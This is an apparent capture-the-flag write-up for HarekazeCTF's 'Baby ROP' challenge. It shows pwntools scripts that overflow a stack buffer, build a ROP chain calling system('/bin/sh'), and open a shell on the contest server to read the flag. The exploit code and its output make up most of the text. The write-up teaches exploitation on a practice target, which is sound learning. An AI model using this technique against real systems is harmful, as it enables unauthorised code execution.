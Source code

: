 # Baby ROP

The program is running on Ubuntu 16.04.

nc problem.harekaze.com 20001

[babyrop](babyrop)

Run the program:
```bash
# ./babyrop 
What's your name? hi
Welcome to the Pwn World, hi!
```

Run `strings`:
```bash
# strings babyrop 
/lib64/ld-linux-x86-64.so.2
libc.so.6
__isoc99_scanf
printf
system
__libc_start_main
__gmon_start__
GLIBC_2.7
GLIBC_2.2.5
UH-P
AWAVA
AUATL
[]A\A]A^A_
echo -n "What's your name? "
Welcome to the Pwn World, %s!
;*3$"
/bin/sh
GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.10) 5.4.0 20160609
...
...
...
```

Looks like it contains string `/bin/sh` in the program

The title also hints it needs to do Return Oriented Programming (ROP)

Basically is like buffer overflow:
```
Buffer Overflow:
[ buffer ][ address to execute ]

Buffer Overflow with ROP:
[ buffer ][ address to execute ][ another address to execute ][ address again ][...]
```

First, lets find the buffer size using pwntools:
```python
from pwn import *
p = process('./babyrop')
p.sendline('a'*30)
print p.recv()
```
Output:
```
[x] Starting local process './babyrop'
[+] Starting local process './babyrop': pid 2921
What's your name? Welcome to the Pwn World, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!

[*] Stopped process './babyrop' (pid 2921)
```

Stopped means we hit the EIP (Instruction Pointer)

We can check with `dmesg` command:
```bash
# dmesg | grep baby
[ 1595.158999] babyrop[2921]: segfault at 616161616161 ip 0000616161616161 sp 00007ffc2efe3c80 error 14 in libc-2.28.so[7f02d848d000+22000]
```
As seen above, we overwritten 6 bytes of EIP `0000616161616161`

So our padding need to +2 and -8 to prepare the payload:
```python
from pwn import *
elf = ELF('./babyrop')
main = elf.symbols['main']
p = elf.process()
p.sendline('a'*24 + p64(main))
p.interactive()
```
Output:
```bash
python solve.py 
[*] '/root/Downloads/harekaze/rop/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/root/Downloads/harekaze/rop/babyrop': pid 3781
[*] Switching to interactive mode
What's your name? Welcome to the Pwn World, aaaaaaaaaaaaaaaaaaaaaaaa�@!
What's your name? [*] Got EOF while reading in interactive
$ 
```
But I don't know why get EOF

Anyway we execute the main function successfully

Next step is to find where is the `/bin/sh` is located in the program

Using `next(elf.search('/bin/sh'))` in pwntools to find the address 

Output:

```
[*] '/root/Downloads/harekaze/rop/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
0x601048
```
Looks like its located at `0x601048`

## Final step

Using the ROP library, we can easily build the payload to execute `system` with the string `/bin/sh`:
```python
from pwn import *
context.clear(arch='amd64') # 64 bit
elf = ELF('./babyrop')
sh = next(elf.search('/bin/sh'))
r = ROP(elf)
r.system(sh) # running system("/bin/sh")
p = elf.process()
p.sendline('a'*24 + str(r)) # send the payload
p.interactive()
```
Output:
```bash
# python solve.py 
[*] '/root/Downloads/harekaze/rop/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded cached gadgets for './babyrop'
[+] Starting local process '/root/Downloads/harekaze/rop/babyrop': pid 4707
[*] Switching to interactive mode
What's your name? Welcome to the Pwn World, aaaaaaaaaaaaaaaaaaaaaaaa\x83\x06@!
$ ls
babyrop  core  solve.py
```

Yay! Looks like we succeed! 

Change the process to netcat:
```python
# p = elf.process()
p = remote('problem.harekaze.com',20001)
```
Output:
```bash
# python solve.py 
[*] '/root/Downloads/harekaze/rop/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded cached gadgets for './babyrop'
[+] Opening connection to problem.harekaze.com on port 20001: Done
[*] Switching to interactive mode
What's your name? $ cd /home/babyrop
$ ls
babyrop
flag
$ cat flag
HarekazeCTF{r3turn_0r13nt3d_pr0gr4mm1ng_i5_3ss3nt141_70_pwn}
```

## Flag
> HarekazeCTF{r3turn_0r13nt3d_pr0gr4mm1ng_i5_3ss3nt141_70_pwn}